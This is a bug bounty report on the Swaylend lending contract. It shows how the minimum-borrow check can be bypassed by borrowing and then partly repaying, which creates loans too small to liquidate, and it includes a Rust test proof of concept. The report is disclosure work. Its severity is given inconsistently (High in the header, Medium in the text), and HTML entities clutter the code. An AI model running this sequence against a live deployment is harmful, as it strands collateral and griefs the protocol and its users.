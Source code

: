 # #35831 \[SC-High] By bypassing base\_borrow\_min limitation borrows can create inabsorbable loans

**Submitted on Oct 10th 2024 at 08:54:13 UTC by @SeveritySquad for** [**IOP | Swaylend**](https://immunefi.com/audit-competition/iop-swaylend)

* **Report ID:** #35831
* **Report Type:** Smart Contract
* **Report severity:** High
* **Target:** https://github.com/Swaylend/swaylend-monorepo/blob/develop/contracts/market/src/main.sw
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
  * Contract fails to deliver promised returns, but doesn't lose value

## Description

## Brief/Intro

The \`withdraw\_base()\` contains a condition to prevent creation of loans smaller than \`base\_borrow\_min\` amount. This limitation can be bypassed, by creating a larger loan (higher than \`base\_borrow\_min\` amount) and repaying some portion of it so that the remaining part is lower than \`base\_borrow\_min\`.

## Vulnerability Details

The \`withdraw\_base()\` method contains the following condition: \`\`\` require( u256::try\_from(user\_balance.wrapping\_neg()) .unwrap() >= storage .market\_configuration .read() .base\_borrow\_min, Error::BorrowTooSmall, ); \`\`\` While it prevents a borrow for taking a too small loan, this check is not present in the \`supply\_base()\`. As a result a user can take a larger loan and then repay immediately back some smaller portion so that the balance will eventually be lower than \`base\_borrow\_min\`.

## Impact Details

The impact of this issue is that if those position are small enough they may not be worth to cover the gas cost of calling the \`absorb()\` for those accounts. Hence the collateral will be stuck in the contract as there would be no financial incentive to take out such a small amount. While those amounts are small they can amass over time on multiple accounts, hence the chosen severity is Medium as it falls into griefing category.

## References

condition in the \`withdraw\_base()\`: https://github.com/Swaylend/swaylend-monorepo/blob/bbfa0b0840311d0eb0519d2b4fed8bf9d06868cd/contracts/market/src/main.sw#L625

## Proof of Concept

## Proof of Concept

The PoC presents creation of a debt position of size \`1\`: \`\`\` #\[tokio::test] async fn poc\_create\_small\_loan() { let TestData { wallets, alice, alice\_account, bob, bob\_account, chad, market, assets, usdc, eth, oracle, price\_feed\_ids, publish\_time, prices, usdc\_contract, .. } = setup().await;

```
let price_data_update &#x3D; PriceDataUpdate {
    update_fee: 0,
    price_feed_ids,
    publish_times: vec![publish_time; assets.len()],
    update_data: oracle.create_update_data(&amp;prices).await.unwrap(),
};

// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D; Step #0 &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// 👛 Wallet: Alice 🧛
// 🤙 Call: supply_base
// 💰 Amount: 3000.00 USDC
let alice_supply_amount &#x3D; parse_units(3000 * AMOUNT_COEFFICIENT, usdc.decimals);
let alice_mint_amount &#x3D; parse_units(4000 * AMOUNT_COEFFICIENT, usdc.decimals);
let alice_supply_log_amount &#x3D; format!(&quot;{} USDC&quot;, alice_supply_amount as f64 / SCALE_6);
print_case_title(0, &quot;Alice&quot;, &quot;supply_base&quot;, alice_supply_log_amount.as_str());
println!(&quot;💸 Alice + {alice_supply_log_amount}&quot;);
usdc_contract
    .mint(alice_account, alice_mint_amount)
    .await
    .unwrap();
let balance &#x3D; alice.get_asset_balance(&amp;usdc.asset_id).await.unwrap();
assert!(balance &#x3D;&#x3D; alice_mint_amount);

let alice_supply_res &#x3D; market
    .with_account(&amp;alice)
    .await
    .unwrap()
    .supply_base(usdc.asset_id, alice_supply_amount)
    .await;
assert!(alice_supply_res.is_ok());

market.debug_increment_timestamp().await.unwrap();
// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D; Step #1 &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// 👛 Wallet: Bob 🧛
// 🤙 Call: supply_collateral
// 💰 Amount: 1.00 ETH
let bob_supply_amount &#x3D; parse_units(1 * AMOUNT_COEFFICIENT, eth.decimals);
let bob_supply_res &#x3D; market
    .with_account(&amp;bob)
    .await
    .unwrap()
    .supply_collateral(eth.asset_id, bob_supply_amount)
    .await;
assert!(bob_supply_res.is_ok());

let bob_user_collateral &#x3D; market
    .get_user_collateral(bob_account, eth.asset_id)
    .await
    .unwrap()
    .value;
assert!(bob_user_collateral &#x3D;&#x3D; bob_supply_amount);

market
    .print_debug_state(&amp;wallets, &amp;usdc, &amp;eth)
    .await
    .unwrap();

market.debug_increment_timestamp().await.unwrap();

// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D; Step #2 &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// 👛 Wallet: Bob 🧛
// 🤙 Call: withdraw_base
// 💰 Amount: &lt;MAX HE CAN BORROW&gt;
let max_borrow_amount &#x3D; market
    .available_to_borrow(&amp;[&amp;oracle.instance], bob_account)
    .await
    .unwrap();
let log_amount &#x3D; format!(&quot;{} USDC&quot;, max_borrow_amount as f64 / SCALE_6);
print_case_title(2, &quot;Bob&quot;, &quot;withdraw_base&quot;, &amp;log_amount.as_str());
let bob_borrow_res &#x3D; market
    .with_account(&amp;bob)
    .await
    .unwrap()
    .withdraw_base(
        &amp;[&amp;oracle.instance],
        max_borrow_amount.try_into().unwrap(),
        &amp;price_data_update,
    )
    .await;
assert!(bob_borrow_res.is_ok());

let balance &#x3D; bob.get_asset_balance(&amp;usdc.asset_id).await.unwrap();
assert!(balance &#x3D;&#x3D; max_borrow_amount as u64);
market
    .print_debug_state(&amp;wallets, &amp;usdc, &amp;eth)
    .await
    .unwrap();

// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D; Step #3 &#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;&#x3D;
// 👛 Wallet: Bob 🧛
// 🤙 Call: withdraw_base 
// 💰 Amount: &lt;max he can borrow - 1&gt;

//let tx_policies &#x3D; TxPolicies::default().with_script_gas_limit(1_000_000);

// Withdraw base
    // Supply base
let supply_base_call &#x3D; market
    .with_account(&amp;bob)
    .await
    .unwrap()
    .supply_base(usdc.asset_id, max_borrow_amount as u64 - 1)
    .await;

// Check borrow amount of bob
let (_, borrow) &#x3D; market.get_user_supply_borrow(bob_account).await.unwrap();

println!(&quot;Bob&#x27;s borrow amount: {} &quot;, borrow);
```

} \`\`\`
